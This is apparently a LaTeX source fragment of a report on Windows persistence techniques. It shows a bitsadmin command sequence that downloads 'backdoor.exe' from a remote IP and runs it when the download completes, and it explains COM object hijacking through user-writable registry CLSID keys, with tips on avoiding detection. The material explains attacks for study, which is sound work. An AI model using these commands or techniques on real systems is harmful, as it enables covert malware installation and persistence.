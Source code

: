 \begin{itemize}
\begin{spverbatim} 
### Commands in shell script: a payload is downloaded from a remote IP, and then executed ###
> bitsadmin /create backdoor
> bitsadmin /addfile backdoor "http://11.12.13.14/backdoor.exe"  "C:\Tmp\backdoor.exe"

# when the job (downloading) is complete, it executes the file without parameters.

> bitsadmin /SetNotifyCmdLine backdoor C:\Tmp\backdoor.exe NULL
> bitsadmin /SetMinRetryDelay "backdoor" 60  # if the job fails, it tries again in 60 sec.
> bitsadmin /resume backdoor  # starts the job.
\end{spverbatim}
\vspace{7pt}

\bigskip

\item \textbf{T1546.015 - COM Object Hijacking}: Windows Component Object Model (COM) is a method to implement objects that could be used by different frameworks and in different Windows environments, allowing interoperability, inter-process communication and code reuse. 

However, it can be abused by replacing references to legitimate software with malicious code to be executed, through hijacking the COM references and relationships in the Registry. This must be done carefully, to avoid system instability that could lead to detection. 

\pagebreak
As stated in \cite{COMObjects}, some of the most used registry sub-keys during COM Hijacking are these:
\begin{itemize}
\item \verb|InprocServer/InprocServer32| (threading model for 32-bits server app)
\item \verb|LocalServer/LocalServer32| (path to 32-bits server app) 
\item \verb|TreatAs| (ID of a class similar to the legit one)
\item \verb|ProgID| (associates two IDs)
\end{itemize}

And the full paths to the above sub-keys are:
\begin{itemize}
\item \verb|HKEY_CURRENT_USER\Software\Classes\CLSID|
\item \verb|HKEY_LOCAL_MACHINE\Software\Classes\CLSID|
\end{itemize}

So, as it can be seen in the last list, for this persistence mechanism  \underline{no elevated privileges} are needed (if only HKCU keys are modified), but only the knowledge of which of the most frequently used COM objects will not be missed if they stop working.


\end{itemize}
